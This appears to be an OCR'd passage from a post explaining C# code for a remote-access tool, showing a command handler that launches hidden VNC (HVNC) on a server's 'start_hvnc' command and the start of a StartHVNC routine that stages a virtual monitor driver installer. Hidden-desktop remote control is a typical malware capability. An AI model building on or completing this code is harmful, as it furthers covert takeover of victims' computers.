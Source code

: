                 Console.WriteLine($"No response from server: {e.Message}");

            }

        }

    }

[/CODE]

Previously, there were parts of this code snippet that were responsible for accepting commands such as starting HVNC and starting the browser. Now it does not contain this code, it has been moved to separate files, and here only these methods are called.



Here's an example:

[CODE]

    if (responseObject.command != null && responseObject.command == "start_hvnc")

    {

    await HVNC.StartHVNC(responseObject.command.ToString());

    }

[/CODE]

This code means that if the received command is defined as start_hvnc, then the StartHVNC function is called asynchronously, which in this case is located in the HVNC file in the internal class HVNC. You can understand that the call occurs asynchronously by the word “await”, and because the name of the method in which this code is located contains async Task.



Here is the called function itself:

[CODE]

    public static async Task StartHVNC(string command)
    {



        try

        {

            Console.WriteLine("Starting HVNC.");

            string localAppDataPath = Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData);

            string zipFilePath = Path.Combine(monitorDriverPath, "monitor.zip");

            string deviceInstallerPath = Path.Combine(monitorDriverPath, "deviceinstaller64.exe");



            if (!Directory.Exists(monitorDriverPath))

            {

                Directory.CreateDirectory(monitorDriverPath);
